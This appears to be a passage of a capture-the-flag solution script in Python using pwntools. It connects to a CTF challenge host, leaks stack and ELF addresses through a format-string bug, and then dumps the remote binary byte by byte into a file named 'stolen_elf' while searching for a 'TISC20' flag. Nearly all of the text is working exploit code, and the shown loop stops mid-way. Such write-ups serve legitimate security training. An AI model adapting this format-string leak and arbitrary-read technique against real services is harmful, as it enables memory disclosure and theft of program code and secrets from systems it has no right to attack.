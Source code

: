 ```python

def main():
    p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 42000)

    # Index 17 points to Index 38
    # Figure out address of Index 38
    index_17_value = leak_address(p, 17)
    index_38_address = index_17_value
    log.info("Got address of index 38: 0x%x" % index_38_address)

    # Figure out index 0
    index_base = index_38_address - (38 * 8)
    log.info("RSP (index 0): 0x%x" % index_base)

    # Figure out the halfed address to index 39
    index_26_value = leak_address(p, 26)
    log.info("Got address of index 26 (index 39): 0x%x" % index_26_value)

    index_39_value = leak_address(p, 39)
    log.info("Got value of index 39: 0x%x" % index_39_value)

    # Leak address of the format string just to verify.
    index_4_value = leak_address(p, 4)
    log.info("Got address of index 4 (format string): 0x%x" % index_4_value)

    #write_index(p, index_base, 41, index_4_value, 0)
    #log.info("Systems Test: 0x%x" % leak_address(p, 41))
    #log.info("Verify that format string shows up: %s" % leak_data(p, 41).decode("utf-8"))

    # Leak address of possible .text.
    index_7_value = leak_address(p, 7)
    log.info("Got address of index 7 (format string): 0x%x" % index_7_value)
    elf_start = index_7_value & 0xffffffffffffe000
    log.info("ELF Start: 0x%x" % elf_start)

    def leak(address):
        return arbitrary_read(p, index_base, address)

    elf_header = leak(elf_start)
    log.info("ELF Start Bytes: %s" % elf_header)

    if b'\x7fELF\x02\x01\x01' != elf_header:
        log.info('Attempt failed.')
        return

    elf_contents = elf_header + b'\x00'
    offset = len(elf_contents)
    fd = open("stolen_elf", 'wb')
    fd.write(elf_contents)
    running_index = -1
    while True:
        try:
            next_content = leak(elf_start + offset) + b'\x00'
            elf_contents += next_content
            offset += len(next_content)
            #print(offset, next_content)
            fd.write(next_content)
            if b'TISC20' in next_content:
                flag = next_content.decode('utf-8')[:-1]
                log.success('Discovered flag: {}'.format(flag))
            if float(len(elf_contents))/100 > running_index + 1:
                log.info("Got {} bytes of ELF data so far.".format(len(elf_contents)))
                running_index += 1
```